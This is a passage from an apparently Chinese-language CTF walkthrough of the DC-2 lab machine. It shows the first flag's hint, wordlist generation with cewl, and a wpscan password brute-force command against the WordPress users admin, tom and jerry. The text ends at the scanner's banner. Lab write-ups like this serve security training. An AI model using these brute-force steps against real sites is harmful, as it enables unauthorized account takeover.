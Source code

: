 
## web渗透

1. 前面`nmap`扫描出是`wordpress`的CMS,并且得出几个用户名`admin` `tom` `jerry` ,和一些让人感兴趣的路径
    
    进入主页存在`flag`选项卡得到`flag1`
    
    ![image.png](image%2025.png)
    
    ```sql
    # flag1
    Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
    
    More passwords is always better, but sometimes you just can’t win them all.
    
    Log in as one to see the next flag.
    
    If you can’t find it, log in as another
    ```
    
    提示到呢`cewl` ，先用`cewl` 对`dc-2` 生成字典，备用
    
    ```sql
    cewl http://dc-2 > dc2.txt
    ```
    
2. F12可以找到wordpress版本是`WordPress 4.7.10` ，得知当前用户 `admin` `tom` `jerry` 将他们存为`dc2u.txt` ,通过`flag1`给的提示，使用上面生成`dc2.txt` 来做用户密码爆破
    
    ```sql
    wpscan --url http://dc-2 -U dc2u.txt -P dc2.txt 
    //
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.8.22
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    